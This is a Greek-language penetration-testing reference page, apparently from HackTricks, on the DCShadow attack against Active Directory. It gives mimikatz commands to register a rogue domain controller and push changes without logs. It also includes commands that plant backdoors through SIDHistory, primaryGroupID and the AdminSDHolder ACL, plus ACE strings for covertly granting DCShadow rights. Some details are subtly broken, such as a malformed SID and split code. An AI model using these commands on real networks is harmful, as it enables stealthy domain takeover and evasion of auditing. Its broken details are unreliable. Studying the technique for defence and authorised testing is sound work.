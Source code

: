 {{#include ../../banners/hacktricks-training.md}}

# DCShadow

Καταχωρεί έναν **νέο Domain Controller** στο AD και τον χρησιμοποιεί για να **σπρώξει χαρακτηριστικά** (SIDHistory, SPNs...) σε καθορισμένα αντικείμενα **χωρίς** να αφήνει κανένα **καταγραφή** σχετικά με τις **τροποποιήσεις**. Χρειάζεστε δικαιώματα DA και να είστε μέσα στο **root domain**.\
Σημειώστε ότι αν χρησιμοποιήσετε λανθασμένα δεδομένα, θα εμφανιστούν αρκετά άσχημες καταγραφές.

Για να εκτελέσετε την επίθεση χρειάζεστε 2 περιπτώσεις του mimikatz. Μία από αυτές θα ξεκινήσει τους RPC servers με δικαιώματα SYSTEM (πρέπει να υποδείξετε εδώ τις αλλαγές που θέλετε να εκτελέσετε), και η άλλη περίπτωση θα χρησιμοποιηθεί για να σπρώξει τις τιμές:
```bash:mimikatz1 (RPC servers)
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```

```bash:mimikatz2 (push) - Needs DA or similar
lsadump::dcshadow /push
```
Σημειώστε ότι **`elevate::token`** δεν θα λειτουργήσει σε `mimikatz1` συνεδρία καθώς αυτό αύξησε τα δικαιώματα του νήματος, αλλά πρέπει να αυξήσουμε το **δικαίωμα της διαδικασίας**.\
Μπορείτε επίσης να επιλέξετε και ένα αντικείμενο "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Μπορείτε να σπρώξετε τις αλλαγές από έναν DA ή από έναν χρήστη με αυτές τις ελάχιστες άδειες:

- Στο **αντικείμενο τομέα**:
- _DS-Install-Replica_ (Προσθήκη/Αφαίρεση Αντιγράφου στο Τομέα)
- _DS-Replication-Manage-Topology_ (Διαχείριση Τοπολογίας Αναπαραγωγής)
- _DS-Replication-Synchronize_ (Συγχρονισμός Αναπαραγωγής)
- Το **αντικείμενο Sites** (και τα παιδιά του) στο **δοχείο Διαμόρφωσης**:
- _CreateChild and DeleteChild_
- Το αντικείμενο του **υπολογιστή που είναι καταχωρισμένος ως DC**:
- _WriteProperty_ (Όχι Γράψιμο)
- Το **στόχο αντικείμενο**:
- _WriteProperty_ (Όχι Γράψιμο)

Μπορείτε να χρησιμοποιήσετε [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) για να δώσετε αυτά τα δικαιώματα σε έναν χρήστη χωρίς δικαιώματα (σημειώστε ότι αυτό θα αφήσει κάποια αρχεία καταγραφής). Αυτό είναι πολύ πιο περιοριστικό από το να έχετε δικαιώματα DA.\
Για παράδειγμα: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Αυτό σημαίνει ότι το όνομα χρήστη _**student1**_ όταν συνδεθεί στη μηχανή _**mcorp-student1**_ έχει άδειες DCShadow πάνω στο αντικείμενο _**root1user**_.

## Χρήση του DCShadow για τη δημιουργία backdoors
```bash:Set Enterprise Admins in SIDHistory to a user
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```

```bash:Chage PrimaryGroupID (put user as member of Domain Administrators)
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

```bash:Modify ntSecurityDescriptor of AdminSDHolder (give Full Control to a user)
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
## Shadowception - Δώστε δικαιώματα DCShadow χρησιμοποιώντας DCShadow (χωρίς τροποποιημένα αρχεία καταγραφής δικαιωμάτων)

Πρέπει να προσθέσουμε τα παρακάτω ACEs με το SID του χρήστη μας στο τέλος:

- Στο αντικείμενο τομέα:
- `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
- `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- Στο αντικείμενο υπολογιστή του επιτιθέμενου: `(A;;WP;;;UserSID)`
- Στο αντικείμενο του στόχου χρήστη: `(A;;WP;;;UserSID)`
- Στο αντικείμενο Sites στο δοχείο Configuration: `(A;CI;CCDC;;;UserSID)`

Για να αποκτήσετε το τρέχον ACE ενός αντικειμένου: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Σημειώστε ότι σε αυτή την περίπτωση πρέπει να κάνετε **πολλές αλλαγές,** όχι μόνο μία. Έτσι, στη **συνεδρία mimikatz1** (RPC server) χρησιμοποιήστε την παράμετρο **`/stack` με κάθε αλλαγή** που θέλετε να κάνετε. Με αυτόν τον τρόπο, θα χρειαστεί να **`/push`** μόνο μία φορά για να εκτελέσετε όλες τις συσσωρευμένες αλλαγές στον ρουγέ server.

[**Περισσότερες πληροφορίες σχετικά με το DCShadow στο ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{{#include ../../banners/hacktricks-training.md}}
